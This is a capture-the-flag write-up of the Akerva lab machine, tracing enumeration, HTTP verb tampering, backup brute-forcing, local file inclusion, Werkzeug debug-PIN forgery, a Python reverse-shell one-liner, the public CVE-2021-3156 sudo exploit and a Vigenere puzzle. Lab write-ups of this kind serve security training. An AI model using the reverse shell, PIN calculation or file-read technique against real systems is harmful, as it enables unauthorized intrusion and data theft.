


# Akerva

:::note ABOUT Akerva

Pure player in cybersecurity with strong expertise (Technical Expertise, Audit and Pentest, Red Team operations, SSI Governance, E-learning, SOC ...), Akerva is an independent firm which today has around sixty employees.

Our consultants and auditors are involved in high added value advisory and audit assignments on complex security issues.

In strong growth, we are recruiting many consultants with a technical profile to integrate our audit team but also our SOC - Cyber ​​Defense Center. We are also looking for consultants with a real consulting approach to carry out ISS Governance, risk analysis or security project management missions.

Our technical teams, specialized in offensive security, intervene in penetration testing and audit services in order to maximize the security of our customers' Information Systems. Via our Security Lab, our auditors are able to focus analysis as close as possible to real conditions and to improve their skills on a regular basis.

Whatever their profile, our employees are all supported in the passage of recognized training and certification corresponding to their expectations (OSCP / OSCE, ISO 27001, ISO 27005, CeH, PCI-DSS, etc.).

Whatever the duration of your journey within our teams, this experience will mark your career!

Every day, we make sure that your career wishes are in line with our ability to support you. We offer training and / or ISS certifications to enhance or develop your expertise. We are committed to your work / life balance by offering assignments near your home. Each newcomer is supported and welcomed by a sponsor during their integration. We offer an attractive co-optation program so that you are directly involved in the growth of Akerva.

And finally, we regularly organize afterworks, rumps and events with all our teams to disconnect but also extend our cyber skills!

Follow us: `https://twitter.com/akerva_fr`

Akerva 是网络安全领域的专业公司，拥有强大的专业知识（技术专业知识、审计和渗透测试、红队行动、SSI 治理、电子学习、SOC 等），是一家独立公司，如今拥有约六十名员工。

我们的顾问和审计师参与了有关复杂安全问题的增值咨询和审计任务。

在强劲增长的推动下，我们正在招聘许多具有技术背景的顾问，以加入我们的审计团队以及我们的 SOC - 网络防御中心。我们还在寻找具有真正的咨询方法的顾问，以执行 ISS 治理、风险分析或安全项目管理任务。

我们的技术团队专门从事进攻性安全，参与渗透测试和审计服务，以最大程度地提高我们客户的信息系统的安全性。通过我们的安全实验室，我们的审计师能够尽可能接近真实条件地进行分析，并定期提高自己的技能。

无论他们的背景如何，我们都会支持我们的员工通过与他们的期望相符的公认培训和认证（OSCP/OSCE、ISO 27001、ISO 27005、CeH、PCI-DSS 等）。

无论您在我们团队中的工作时间长短，这段经历都将成为您职业生涯中浓墨重彩的一笔！

每天，我们都确保您的职业愿望与我们支持您的能力相符。我们提供培训和 / 或 ISS 认证以增强或发展您的专业知识。我们通过提供靠近您家的任务来致力于您的工作 / 生活平衡。每位新人都将在融入期间得到一位赞助人的支持和欢迎。我们提供了一项有吸引力的合作计划，以便您直接参与 Akerva 的发展。

最后，我们定期与我们所有的团队组织下班聚会、闲聊和活动，以放松一下，同时还可以扩展我们的网络技能！

关注我们：`https://twitter.com/akerva_fr`

:::

## ENTRY POINT

```plaintext
10.13.37.11
```

## First of all

```plaintext title="rustscan --ulimit 5000 10.13.37.11"
Open 10.13.37.11:22
Open 10.13.37.11:80
Open 10.13.37.11:5000
```

```bash title="sudo nmap -A --min-rate=5000 -T4 -sU --top-ports 20 10.13.37.11"
PORT      STATE         SERVICE      VERSION
161/udp   open          snmp         SNMPv1 server; net-snmp SNMPv3 server (public)
| snmp-win32-software:
|_  ......
| snmp-netstat:
|
|_  ......
| snmp-interfaces:
|   lo
|     IP address: 127.0.0.1  Netmask: 255.0.0.0
|     Type: softwareLoopback  Speed: 10 Mbps
|     Traffic stats: 138.67 Mb sent, 138.67 Mb received
|   Intel Corporation 82545EM Gigabit Ethernet Controller (Copper)
|     IP address: 10.13.37.11  Netmask: 255.255.255.0
|     MAC address: 00:50:56:b9:71:c8 (VMware)
|     Type: ethernetCsmacd  Speed: 1 Gbps
|_    Traffic stats: 3.73 Gb sent, 1.79 Gb received
| snmp-processes:
|_  ......
| snmp-sysdescr: Linux Leakage 4.15.0-72-generic #81-Ubuntu SMP Tue Nov 26 12:20:02 UTC 2019 x86_64
|_  System uptime: 7d22h42m45.35s (68656535 timeticks)
| snmp-info:
|   enterprise: net-snmp
|   engineIDFormat: unknown
|   engineIDData: 423f5e76cd7abe5e00000000
|   snmpEngineBoots: 6
|_  snmpEngineTime: 7d22h42m45s
```

```plaintext title="sudo nmap -A --min-rate=5000 -T4 -p 22,80,5000 10.13.37.11"
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 0d:e4:41:fd:9f:a9:07:4d:25:b4:bd:5d:26:cc:4f:da (RSA)
|   256 f7:65:51:e0:39:37:2c:81:7f:b5:55:bd:63:9c:82:b5 (ECDSA)
|_  256 28:61:d3:5a:b9:39:f2:5b:d7:10:5a:67:ee:81:a8:5e (ED25519)
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-generator: WordPress 5.4-alpha-47225
|_http-title: Root of the Universe &#8211; by @lydericlefebvre &amp; @akerva_fr
5000/tcp open  http    Werkzeug httpd 0.16.0 (Python 2.7.15+)
| http-auth:
| HTTP/1.0 401 UNAUTHORIZED\x0D
|_  Basic realm=Authentication Required
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
|_http-server-header: Werkzeug/0.16.0 Python/2.7.15+
```

```plaintext title="wpscan --url 10.13.37.11"
[+] URL: http://10.13.37.11/ [10.13.37.11]
[+] Started: Wed Mar  6 23:25:10 2024

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.29 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://10.13.37.11/xmlrpc.php
 | Found By: Headers (Passive Detection)
 | Confidence: 100%
 | Confirmed By:
 |  - Link Tag (Passive Detection), 30% confidence
 |  - Direct Access (Aggressive Detection), 100% confidence
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://10.13.37.11/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://10.13.37.11/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 5.4 identified (Insecure, released on 2020-03-31).
 | Found By: Emoji Settings (Passive Detection)
 |  - http://10.13.37.11/, Match: 'wp-includes\/js\/wp-emoji-release.min.js?ver=5.4'
 | Confirmed By: Meta Generator (Passive Detection)
 |  - http://10.13.37.11/, Match: 'WordPress 5.4'

[+] WordPress theme in use: twentyfifteen
 | Location: http://10.13.37.11/wp-content/themes/twentyfifteen/
 | Last Updated: 2023-11-07T00:00:00.000Z
 | Readme: http://10.13.37.11/wp-content/themes/twentyfifteen/readme.txt
 | [!] The version is out of date, the latest version is 3.6
 | Style URL: http://10.13.37.11/wp-content/themes/twentyfifteen/style.css?ver=20190507
 | Style Name: Twenty Fifteen
 | Style URI: https://wordpress.org/themes/twentyfifteen/
 | Description: Our 2015 default theme is clean, blog-focused, and designed for clarity. Twenty Fifteen's simple, st...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Css Style In Homepage (Passive Detection)
 |
 | Version: 2.5 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://10.13.37.11/wp-content/themes/twentyfifteen/style.css?ver=20190507, Match: 'Version: 2.5'

[+] Enumerating All Plugins (via Passive Methods)

[i] No plugins Found.

[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:16 <=================================================================================================================================> (137 / 137) 100.00% Time: 00:00:16

[i] No Config Backups Found.
```

## Introduction

```plaintext
This fun fortress from Akerva features a gradual learning curve. It teaches about common developer mistakes while also introducing a very interesting web vector. Prepare to take your skills to the next level!

这款来自 Akerva 的有趣堡垒具有逐渐学习的曲线。它在介绍一个非常有趣的网络向量的同时，还教授常见的开发人员错误。准备将你的技能提升到一个新的水平！
```

## Plain Sight

```html title="http get http://10.13.37.11/"
......
<!-- Hello folks! -->
<!-- This machine is powered by @lydericlefebvre from Akerva company. -->
<!-- You have to find 8 flags on this machine. Have a nice root! -->
<!-- By the way, the first flag is: AKERVA{Ikn0w_F0rgoTTEN#CoMmeNts} -->
```

## flag - 01

```plaintext title="Flag"
AKERVA{Ikn0w_F0rgoTTEN#CoMmeNts}
```

## Take a Look Around

在 udp 扫描结果中发现了 snmp 服务，进行探测

```plaintext title='snmpbulkwalk -c public -v2c 10.13.37.11 | grep"AKERVA"'
iso.3.6.1.2.1.25.4.2.1.5.1243 = STRING: "/var/www/html/scripts/backup_every_17minutes.sh AKERVA{IkN0w_SnMP@@@MIsconfigur@T!onS}"
```

## flag - 02

```plaintext title="Flag"
AKERVA{IkN0w_SnMP@@@MIsconfigur@T!onS}
```

## Dead Poets

在上一题中，注意到 `/var/www/html/scripts/backup_every_17minutes.sh`

根据路径，可以定位到 `http://10.13.37.11/scripts/backup_every_17minutes.sh`

尝试直接 `GET`

```html title="http get http://10.13.37.11/scripts/backup_every_17minutes.sh"
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>401 Unauthorized</title>
</head><body>
<h1>Unauthorized</h1>
<p>This server could not verify that you
are authorized to access the document
requested.  Either you supplied the wrong
credentials (e.g., bad password), or your
browser doesn't understand how to supply
the credentials required.</p>
<hr>
<address>Apache/2.4.29 (Ubuntu) Server at 10.13.37.11 Port 80</address>
</body></html>
```

尝试更换其他协议进行请求，比如 `POST`

```bash title="http post http://10.13.37.11/scripts/backup_every_17minutes.sh"
#!/bin/bash
#
# This script performs backups of production and development websites.
# Backups are done every 17 minutes.
#
# AKERVA{IKNoW###VeRbTamper!nG_==}
#

SAVE_DIR=/var/www/html/backups

while true
do
        ARCHIVE_NAME=backup_$(date +%Y%m%d%H%M%S)
        echo "Erasing old backups..."
        rm -rf $SAVE_DIR/*

        echo "Backuping..."
        zip -r $SAVE_DIR/$ARCHIVE_NAME /var/www/html/*

        echo "Done..."
        sleep 1020
done
```

## flag - 03

```plaintext title="Flag
AKERVA{IKNoW###VeRbTamper!nG_==}
```

## Now You See Me

根据 `sleep 1020` 这句可以判断，这个脚本是每隔 17 分钟执行一次

尝试进行爆破文件名

首先，先确定服务器时间

```plaintext title="curl -s 10.13.37.11 -I | grep Date"
Date: Wed, 06 Mar 2024 16:07:01 GMT
```

由于当前服务器时间为 `16:07:01` 时间，所以采用 `2024030615` 作为文件前缀

然后开始爆破

```bash title="ffuf -c -w /usr/share/seclists/Fuzzing/4-digits-0000-9999.txt -u http://10.13.37.11/backups/backup_2024030615FUZZ.zip"
[Status: 200, Size: 22071775, Words: 0, Lines: 0, Duration: 0ms]
    * FUZZ: 5716
```

将文件下载下来

```bash
wget http://10.13.37.11/backups/backup_20240306155716.zip
```

将压缩包进行解压，在 `var/www/html/dev/space_dev.py` 中得到

```python
users = {
        "aas": generate_password_hash("AKERVA{1kn0w_H0w_TO_$Cr1p_T_$$$$$$$$}")
        }
```

## flag - 04

```plaintext title="Flag"
AKERVA{1kn0w_H0w_TO_$Cr1p_T_$$$$$$$$}
```

## Open Book

在上面得到的脚本中，可以注意到以下信息

```python
users = {
        "aas": generate_password_hash("AKERVA{1kn0w_H0w_TO_$Cr1p_T_$$$$$$$$}")
        }
if __name__ == '__main__':
    print(app)
    print(getattr(app, '__name__', getattr(app.__class__, '__name__')))
    app.run(host='0.0.0.0', port='5000', debug = True)
```

尝试以

```plaintext
username: aas
password: AKERVA{1kn0w_H0w_TO_$Cr1p_T_$$$$$$$$}
```

作为凭据进行访问


根据在源码中得到的路由信息

```python
@app.route("/file")
@auth.login_required
def file():
    filename = request.args.get('filename')
    try:
        with open(filename, 'r') as f:
            return f.read()
    except:
        return 'error'
```

访问 `http://10.13.37.11:5000/file?filename=/etc/passwd`

```plaintext
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
aas:x:1000:1000:Lyderic Lefebvre:/home/aas:/bin/bash
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
Debian-snmp:x:111:113::/var/lib/snmp:/bin/false
mysql:x:109:115:MySQL Server,,,:/nonexistent:/bin/false
```

证明可以实现文件读取

在 `/etc/passwd` 中，注意到这条记录

```plaintext
aas:x:1000:1000:Lyderic Lefebvre:/home/aas:/bin/bash
```

尝试读取 `flag.txt` 文件

```plaintext title="http://10.13.37.11:5000/file?filename=/home/aas/flag.txt"
AKERVA{IKNOW#LFi_@_}
```

## flag - 05

```plaintext title="Flag
AKERVA{IKNOW#LFi_@_}
```

## Say Friend and Enter

在 nmap 扫描结果中，注意到

```plaintext
5000/tcp open  http    Werkzeug httpd 0.16.0 (Python 2.7.15+)
| http-auth:
| HTTP/1.0 401 UNAUTHORIZED\x0D
|_  Basic realm=Authentication Required
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
|_http-server-header: Werkzeug/0.16.0 Python/2.7.15+
```

并且在 python 源码中注意到

```python
if __name__ == '__main__':
    print(app)
    print(getattr(app, '__name__', getattr(app.__class__, '__name__')))
    app.run(host='0.0.0.0', port='5000', debug = True)
```

服务开启了 debug 模式，也就说明存在 `/console` 路由



根据目前已经得到的信息

```plaintext
username: ass
Werkzeug/0.16.0 Python/2.7.15+
```

同时借助任意文件读取，读取环境信息

```plaintext title="http://10.13.37.11:5000/file?filename=/sys/class/net/ens33/address"
00:50:56:b9:71:c8
```

```plaintext title="http://10.13.37.11:5000/file?filename=/etc/machine-id"
258f132cd7e647caaf5510e3aca997c1
```

然后通过 `Werkzeug 0.16.0` 源码中，关于 Debug Console Code 的计算部分，编写计算脚本

```python
import hashlib
from itertools import chain

probably_public_bits = [
    "aas",  # username
    "flask.app",  # modname
    "Flask",  # getattr(app, '__name__', getattr(app.__class__, '__name__'))
    "/usr/local/lib/python2.7/dist-packages/flask/app.pyc",  # getattr(mod, '__file__', None),
]

private_bits = [
    str(int("00:50:56:b9:71:c8".replace(":", ""), 16)),  # str(uuid.getnode()),  /sys/class/net/ens33/address
    "258f132cd7e647caaf5510e3aca997c1",  # get_machine_id(), /etc/machine-id
]

h = hashlib.md5()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode("utf-8")
    h.update(bit)
h.update(b"cookiesalt")
# h.update(b'shittysalt')

cookie_name = "__wzd" + h.hexdigest()[:20]

num = None
if num is None:
    h.update(b"pinsalt")
    num = ("%09d" % int(h.hexdigest(), 16))[:9]

rv = None
if rv is None:
    for group_size in 5, 4, 3:
        if len(num) % group_size == 0:
            rv = "-".join(num[x : x + group_size].rjust(group_size, "0") for x in range(0, len(num), group_size))
            break
    else:
        rv = num

print(rv)
# 144-177-687
```

使用 `144-177-687` 访问 Debug Console



使用 Debug Console 反弹 shell

```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.7",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")
```

成功收到回连的 shell

```bash
┌─[randark@parrot]─[~/tmp]
└──╼ $ pwncat-cs -lp 9999
[00:24:58] Welcome to pwncat 🐈!
[00:25:16] received connection from 10.13.37.11:37272
[00:25:25] 10.13.37.11:37272: registered new host w/ db
(local) pwncat$ back
(remote) aas@Leakage:/home/aas$ whoami
aas
```

列出目录下的所有文件

```bash
(remote) aas@Leakage:/home/aas$ ls -lah
total 28K
drwxr-xr-x 3 aas  aas  4.0K Feb  9  2020 .
drwxr-xr-x 3 root root 4.0K Feb  9  2020 ..
-rw------- 1 root root    0 Dec  7  2019 .bash_history
-rw-r--r-- 1 aas  aas   220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 aas  aas  3.7K Apr  4  2018 .bashrc
-r-------- 1 aas  aas    21 Feb  9  2020 flag.txt
-rw-r--r-- 1 root root   38 Feb  9  2020 .hiddenflag.txt
dr-xr-x--- 2 aas  aas  4.0K Feb 10  2020 .ssh
(remote) aas@Leakage:/home/aas$ cat .hiddenflag.txt
AKERVA{IkNOW#=ByPassWerkZeugPinC0de!}
```

## flag - 06

```plaintext title="Flag
AKERVA{IkNOW#=ByPassWerkZeugPinC0de!}
```

## Super Mushroom

探测环境中，注意到 `sudo` 的版本信息

```bash
(remote) aas@Leakage:/home/aas$ sudo --version
Sudo version 1.8.21p2
Sudoers policy plugin version 1.8.21p2
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.21p2
```

查询漏洞库之后，定位到 `CVE-2021-3156`

使用 [CVE-2021-3156/exploit_nss.py at main · worawit/CVE-2021-3156](https://github.com/worawit/CVE-2021-3156/blob/main/exploit_nss.py) 进行攻击

```bash
(remote) aas@Leakage:/tmp$ ./exploit
[sudo] password for aas:
There's a lot of it about, you know.
(remote) root@Leakage:/tmp$ whoami
root
```

在 `/root` 目录中，列出文件夹信息

```bash
(remote) root@Leakage:/root# ls -lh
total 8.0K
-rw-r--r-- 1 root root  26 Feb  9  2020 flag.txt
-r-------- 1 root root 206 Feb  9  2020 secured_note.md
(remote) root@Leakage:/root# cat flag.txt
AKERVA{IkNow_Sud0_sUckS!}
```

## flag - 07

```plaintext title="Flag"
AKERVA{IkNow_Sud0_sUckS!}
```

## Little Secret

```plaintext title="/root/secured_note.md"
R09BSEdIRUVHU0FFRUhBQ0VHVUxSRVBFRUVDRU9LTUtFUkZTRVNGUkxLRVJVS1RTVlBNU1NOSFNL
UkZGQUdJQVBWRVRDTk1ETFZGSERBT0dGTEFGR1NLRVVMTVZPT1dXQ0FIQ1JGVlZOVkhWQ01TWUVM
U1BNSUhITU9EQVVLSEUK

@AKERVA_FR | @lydericlefebvre
```

在文件的前半部分，得到

```plaintext
R09BSEdIRUVHU0FFRUhBQ0VHVUxSRVBFRUVDRU9LTUtFUkZTRVNGUkxLRVJVS1RTVlBNU1NOSFNLUkZGQUdJQVBWRVRDTk1ETFZGSERBT0dGTEFGR1NLRVVMTVZPT1dXQ0FIQ1JGVlZOVkhWQ01TWUVMU1BNSUhITU9EQVVLSEUK
```

Base64 Decode 之后，得到

```plaintext
GOAHGHEEGSAEEHACEGULREPEEECEOKMKERFSESFRLKERUKTSVPMSSNHSKRFFAGIAPVETCNMDLVFHDAOGFLAFGSKEULMVOOWWCAHCRFVVNVHVCMSYELSPMIHHMODAUKHE
```

尝试基于维吉尼亚进行解密 [Vigenere Cipher - Online Decoder, Encoder, Solver, Translator](https://www.dcode.fr/vigenere-cipher)

首先，可以猜测明文中包含有 `AKERVA`

其次，注意到信息中没有 `B,J,Q,X,Z` 字母，所以从字母表中删去

```plaintext
ACDEFGHIKLMNOPRSTUVWY
```

尝试解密，并得到看起来最合理的一条

|  password  |                                                             message                                                              |
| :--------: | :------------------------------------------------------------------------------------------------------------------------------: |
| ILOVESPACE | WELLDONEFORSOLVINGTHISCHALLENGEYOUCANSENDYOURRESUMEHEREATRECRUTEMENTAKERVACOMANDVALIDATETHELASTFLAGWITHAKERVAIKNOOOWVIGEEENERRRE |

将 message 进行还原

```plaintext
WELLDONEFORSOLVINGTHISCHALLENGEYOUCANSENDYOURRESUMEHEREATRECRUTEMENTAKERVACOMANDVALIDATETHELASTFLAGWITHAKERVAIKNOOOWVIGEEENERRRE
welldoneforsolvingthischallengeyoucansendyourresumehereatrecrutementakervacomandvalidatethelastflagwithakervaiknooowvigeeenerrre

well done for solving this challenge you can send your resume here at recrutement akerva com
and validate the last flag with akerva iknooowvigeeenerrre
```

## flag - 08

```plaintext title="Flag"
AKERVA{iknooowvigeeenerrre}
```
